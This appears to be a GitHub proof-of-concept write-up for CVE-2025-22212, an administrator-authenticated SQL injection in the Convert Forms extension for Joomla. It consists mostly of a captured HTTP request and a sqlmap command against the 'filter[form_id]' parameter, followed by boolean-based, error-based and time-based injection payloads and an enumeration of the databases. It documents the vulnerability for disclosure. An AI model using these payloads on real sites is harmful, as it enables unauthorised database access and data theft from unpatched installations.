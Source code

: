 # CVE-2025-22212: SQL injection in Convert Forms for Joomla!

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22212

**Convert Forms:** https://extensions.joomla.org/extension/convert-forms/

## Introduction
An authenticated (administrator) SQL injection (SQLi) vulnerability exists in the Convert Forms extension for Joomla, affecting all versions prior to 4.4.10. The vulnerability is exploitable via the 'filter[form_id]' parameter in the submissions page.

## POC
To exploit this vulnerability, go to 'Convert Forms >> Submissions >> Select Form >> Appointment Form (Unpublished Form) (1) >> search = test', click "search" and save the request in Burp Suite (req.txt).

![Alt text](6.png)

**HTTP Request:**
```
POST /administrator/index.php?option=com_convertforms&view=conversions HTTP/1.1
Host: localhost:8080
Content-Length: 550
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_convertforms&view=conversions
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; c746293156f560164ea71d168e5eb505=185f350a58725560d05ead66c402b552
Connection: keep-alive

filter%5Bsearch%5D=test&list%5Bfullordering%5D=a.id+DESC&list%5Blimit%5D=20&filter%5Bform_id%5D=1&filter%5Bperiod%5D=today&filter%5Bcreated_from%5D=&filter%5Bcreated_to%5D=&filter%5Bstate%5D=1&filter%5Bcolumns%5D%5B%5D=id&filter%5Bcolumns%5D%5B%5D=created&filter%5Bcolumns%5D%5B%5D=param_name&filter%5Bcolumns%5D%5B%5D=param_phone&filter%5Bcolumns%5D%5B%5D=param_email&filter%5Bcolumns%5D%5B%5D=param_comments&filter%5Bcolumns%5D%5B%5D=user_id&filter%5Bcolumns%5D%5B%5D=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1
```

**Exploit:**
```
ubuntu@host:~$ python3 sqlmap.py -r ~/req.txt --batch --dbs --dbms=mysql -p 'filter[form_id]'
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: filter[form_id] (POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: filter[search]=test&list[fullordering]=a.id DESC&list[limit]=20&filter[form_id]=(SELECT (CASE WHEN (2790=2790) THEN 1 ELSE (SELECT 7529 UNION SELECT 2507) END))&filter[period]=today&filter[created_from]=&filter[created_to]=&filter[state]=1&filter[columns][]=id&filter[columns][]=created&filter[columns][]=param_name&filter[columns][]=param_phone&filter[columns][]=param_email&filter[columns][]=param_comments&filter[columns][]=user_id&filter[columns][]=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: filter[search]=test&list[fullordering]=a.id DESC&list[limit]=20&filter[form_id]=1 AND GTID_SUBSET(CONCAT(0x7176787871,(SELECT (ELT(4243=4243,1))),0x7178707671),4243)&filter[period]=today&filter[created_from]=&filter[created_to]=&filter[state]=1&filter[columns][]=id&filter[columns][]=created&filter[columns][]=param_name&filter[columns][]=param_phone&filter[columns][]=param_email&filter[columns][]=param_comments&filter[columns][]=user_id&filter[columns][]=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: filter[search]=test&list[fullordering]=a.id DESC&list[limit]=20&filter[form_id]=1 AND (SELECT 2967 FROM (SELECT(SLEEP(5)))daVE)&filter[period]=today&filter[created_from]=&filter[created_to]=&filter[state]=1&filter[columns][]=id&filter[columns][]=created&filter[columns][]=param_name&filter[columns][]=param_phone&filter[columns][]=param_email&filter[columns][]=param_comments&filter[columns][]=user_id&filter[columns][]=user_username&limitstart=0&task=&boxchecked=0&91f09fbac7a360dc5172b300bfb25d8f=1
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
